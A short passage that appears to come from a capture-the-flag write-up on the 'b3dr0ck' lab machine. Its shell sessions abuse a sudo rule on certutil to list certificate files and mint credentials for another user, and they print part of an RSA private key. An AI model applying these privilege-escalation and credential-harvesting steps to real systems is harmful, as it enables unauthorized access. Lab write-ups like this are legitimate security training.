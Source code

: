 
{% highlight shell %}
barney@b3dr0ck:/tmp$ sudo -l
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
barney@b3dr0ck:/tmp$ sudo -u root /usr/bin/certutil ls
Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Aug 27 03:35 barney.certificate.pem
-rw-r----- 1 root root 1674 Aug 27 03:35 barney.clientKey.pem
-rw-r----- 1 root root  894 Aug 27 03:35 barney.csr.pem
-rw-r----- 1 root root 1678 Aug 27 03:35 barney.serviceKey.pem
-rw-r----- 1 root root  976 Aug 27 03:35 fred.certificate.pem
-rw-r----- 1 root root 1678 Aug 27 03:35 fred.clientKey.pem
-rw-r----- 1 root root  898 Aug 27 03:35 fred.csr.pem
-rw-r----- 1 root root 1678 Aug 27 03:35 fred.serviceKey.pem
{% endhighlight %}

{% highlight shell %}
barney@b3dr0ck:/tmp$ sudo -u root /usr/bin/certutil -O fred
Generating credentials for user: O (fred)
Generated: clientKey for O: /usr/share/abc/certs/O.clientKey.pem
Generated: certificate for O: /usr/share/abc/certs/O.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAzug7pDJCH/nz/mq2afGi99A9N5GklEeJBY1zN72IaB6JvWJ6
DjbBI+XlLkVYKL1HQS/xHl4EHrEQtboXimkgQb2GqFNjpHIplpHY/WZXY4C468te
0bpf9XZ+b9utp62H/CTW9Md8vfTpAwCie4gHoAvLmTyl04WYpTx1CHpyKttsHIy0
# etc
{% endhighlight %}

And it's back through the loop above with the new cert/key and then an unrelated privesc with a multiply encoded and hashed password that's not in **rockyou**

